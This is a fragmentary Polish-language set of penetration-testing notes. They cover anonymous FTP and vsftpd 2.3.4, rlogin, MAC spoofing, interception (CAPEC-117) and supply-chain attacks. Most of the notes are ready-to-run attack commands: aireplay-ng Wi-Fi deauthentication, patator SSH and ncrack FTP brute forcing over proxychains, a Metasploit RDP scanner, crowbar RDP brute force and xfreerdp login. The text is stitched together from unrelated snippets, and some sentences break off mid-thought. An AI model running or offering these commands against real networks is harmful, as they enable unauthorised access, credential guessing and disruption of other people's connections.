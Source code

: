 ![deauthenticate-the-wireless-client.png](:/256ceb7ed9734324b38cbcaadbc521d8)

POLECENIE - aireplay-ng --deauth 100000 -a [NetworkMac] -c [TargetMac] [wlan0/eth0]

port 21 , który jest portem FTP. FTP to rodzaj usługi, która jest instalowana, aby umożliwić użytkownikom przesyłanie i pobieranie plików ze zdalnego serwera. Usługa FTP zwykle używa nazwy użytkownika i hasła, ale widzimy, że ta usługa została źle skonfigurowana i umożliwia anonimowe logowanie przez FTP. W ten sposób będziemy mogli zalogować się bez hasła
![server-side-attack-basics2.png](:/bef96ccf939e41b79f955760bcef3a4c)
Wszystko, co musimy zrobić, to pobrać klienta FTP, takiego jak FileZilla . Teraz będziemy mogli łączyć się za pomocą tego adresu IP na porcie 21. Możemy również wygooglować serwer FTP, który w naszym przypadku to vsftpd 2.3.4 , i sprawdzić, czy ma jakieś problemy, czy ma jakieś błędy w konfiguracji lub czy zawiera wszelkie znane luki w wykonywaniu kodu. Kiedy już to wygooglujemy, zobaczymy, że vsftpd 2.3.4

port 512 - Komputer docelowy działa na Ubuntu i widzimy, że tutaj używa usługi rsh-client do połączenia. Dlatego musimy zainstalować pakiet rsh-client , aby połączyć się z tą usługą.
rlogin -l root IP

NARZĘDZIE PATATOR KOMENDA - proxychains patator ssh_login host=example.com user=root password=/home/kali/Desktop/mentalist/tests/first  0=/home/kali/Desktop/mentalist/tests/first -x ignore:mesg='Authentication failed.'

proxychains dmitry example.com -w -n -s -e -o output.out

sudo proxychains xprobe2 example.com

technika ataku typu adversary-in-the-middle (AitM) zdolną do ominięcia uwierzytelniania wieloskładnikowego

CAPEC-117: Przechwytywanie - Przeciwnik monitoruje strumienie danych do lub od celu w celu zbierania informacji. Atak ten można przeprowadzić wyłącznie w celu zebrania poufnych informacji lub w celu wsparcia dalszego ataku na cel. Ten wzorzec ataku może obejmować sniffowanie ruchu sieciowego, a także innych rodzajów strumieni danych (np. radiowych). Przeciwnik może próbować zainicjować ustanowienie strumienia danych lub pasywnie obserwować komunikację w miarę jej rozwoju. We wszystkich wariantach tego ataku przeciwnik nie jest zamierzonym odbiorcą strumienia danych. W przeciwieństwie do innych sposobów zbierania informacji (np. kierowanie wycieków danych), przeciwnik musi aktywnie pozycjonować się tak, aby obserwować wyraźne kanały danych (np. ruch sieciowy) i czytać zawartość. Jednak ten atak różni się od Adversary-In-the-Middle ( https://capec.mitre.org/data/definitions/94.html), ponieważ przeciwnik nie zmienia treści komunikatów ani nie przekazuje danych do zamierzonego odbiorcy.

Uzyskaj adres mac jednego z komputerów w klasie komputerów, aby przeprowadzić atak mac spoofing

Jak działają ataki łańcucha dostaw? Aby atak w łańcuchu dostaw zadziałał, hakerzy muszą wstawić złośliwy kod do oprogramowania lub znaleźć sposoby na złamanie zabezpieczeń protokołów lub komponentów sieciowych . Gdy odkryją możliwość włamania, wykorzystują ją, uzyskując dostęp do krytycznych zasobów cyfrowych

ftp anonymous login:
**sudo proxychains nmap -p 21 IP --script ftp-anon**
bruteforce: **proxychains  ncrack -U Username.txt -P Password.txt ftp://10.10.10.10**
Logowanie: **proxychains ftp IP
defultowe hasło i nazwa użytkownika: **anonymous**

BRUTEFORCE rdp:
SKANOWANIE: sudo proxychains nmap 10.10.10.0/24 -p 3389
 nmap -sV 10.10.10.10
SPRAWdZANIE: msfconsole
           use auxiliary/scanner/rdp/rdp_scanner
          set RHOSTS 10.10.10.10
          exploit
ATAK: ./crowbar.py --server 10.10.10.10/32 -b rdp -u /usr/share/usernames -C /usr/share/passwords
lub mogę użyć ncracka.
POŁĄCZENIE: xfreerdp /u:USERNAME /p:PASSWORd /v:10.10.10.10
